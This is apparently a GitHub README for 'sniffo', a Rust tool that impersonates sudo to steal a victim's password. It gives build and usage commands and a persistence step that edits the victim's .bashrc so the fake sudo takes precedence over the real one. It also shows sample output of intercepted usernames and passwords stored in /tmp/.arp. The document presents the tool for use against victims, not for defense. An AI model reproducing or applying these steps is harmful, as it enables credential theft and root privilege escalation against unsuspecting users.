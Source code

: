 ______________________________________________
![maxresdefault](https://github.com/0x00snape/sniffo/assets/144463175/0d8f04c9-ce3c-43c6-8217-2d07d237a73b)

______________________________________________
# sniffo
sniffo steals a victims password by camouflaging as sudo without any suspicion,  potentially enabling privilege escalation for root access and stores both correct and incorrect password entries at <code>/tmp/.arp</code>.

## Usage
```bash
:$ git clone https://github.com/0x00snape/sniffo.git
:$ cd sniffo
:$ cargo build --release
:$ ./sudo ls
```
## Privilege Escalation 
```bash
victim:$ cargo build --release --target-dir ~/.arp
victim:$ echo 'export PATH="$HOME/.arp/release:$PATH"' >> $HOME/.bashrc
```
## OR
simply add <code>export PATH="$HOME/.arp/release:$PATH</code> in victims <code>.bashrc</code><br>
## Retrieving Password
```bash
victim:$ cat /tmp/.arp
SUDO Credential Intercepted
Username: victim
Password: test123
Arguments: ls
Status: 1

Username: victim
Password: secretpass
Arguments: ls
Status: 0
```
<em>Note: Status code <code>0</code> means <code>sucess</code> and <code>1</code> means <code>failure</code> also remember to check arguments some victims can enters shell build-in command with <code>sudo</code> it's status code also <code>1</code></em><br>Eg:<code>victim:$ sudo cd</code>
```bash
victim:$ cat /tmp/.arp
SUDO Credential Intercepted
Username: victim
Password: secretpass
Arguments: cd
Status: 1
```
## Issue 
The error message "linker cc not found" indicates the compiler cannot locate the cc linker, typically a symlink to the system's C compiler (gcc or clang).

## License
This project is licensed under [MIT](https://github.com/0x00snape/sniffo/blob/main/LICENSE)
